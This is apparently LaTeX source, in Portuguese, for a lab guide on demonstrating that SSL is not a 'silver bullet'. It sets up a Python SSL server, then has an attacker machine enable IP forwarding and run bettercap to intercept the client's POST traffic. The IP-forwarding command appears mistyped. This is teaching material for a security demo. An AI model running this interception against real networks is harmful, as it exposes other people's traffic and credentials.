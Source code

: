 \documentclass{article}
\begin{document}
  \paragraph{}
  Inicialmente preciso lembrar q todos os requisitos da maquina servidor deve
  estar sendo atindidas, caso não volte para a sub-sessão anterior.
  Para montar a maquina servidor, siga os passos a seguir:
  \begin{enumerate}
    \item Entre na pasta do repositório baixado do GitHub:
    \break
    \$ cd ssl-is-not-silver-bullet
    \item Inicie o ambiente de desnvolvimento para não afetar sua instalação
    python:
    \$ source bin/activate
    \item Entre na pasta do servidor:
    \break
    \$ cd \texttt{ssl\char`_server/app}
    \item Instale as bibliotecas nescessárias:
    \break
    \$ make req
    \item Inicie o servidor com o comando:
    \break
    \$ python main.py
    \item Se não funcionar gere o certificado e a chave nescessária para o SSL:
    \break
    \$ make \texttt{key\char`_crt}
    \item Tente mais uma vez iniciar o servidor com o comando:
    \break
    \$ python main.py
  \end{enumerate}

  \paragraph{}
  Agora precisamos iniciar o atacante:
  \paragraph{}

  Inicialmente preciso lembrar q todos os requisitos da maquina atacante deve
  estar sendo atindidas, caso não volte para a sub-sessão anterior.
  \begin{enumerate}
    \item Inicie a máquina cliente
    \item Use o comando a seguir na máquina cliente para descobrir o IP da
    máquina cliente:
    \break
    \$ ip a
    \item Pegue o IP da maquia cliente e volte para a máquina atacante
    \item Habilite o IP forward na máquina atacante com o comando:
    \break
    \$ echo \texttt{\char`>} 1 \texttt{/proc/sys/net/ipv4/ip\char`_forward}
    \item digite o comando abaixo para interceptar a comunicação entre o cliente
    e servidor:
    \break
    \$ bettercap -T \texttt{IP\char`_MAQUINA\char`_CLIENTE} --proxy -P POST
  \end{enumerate}
\end{document}
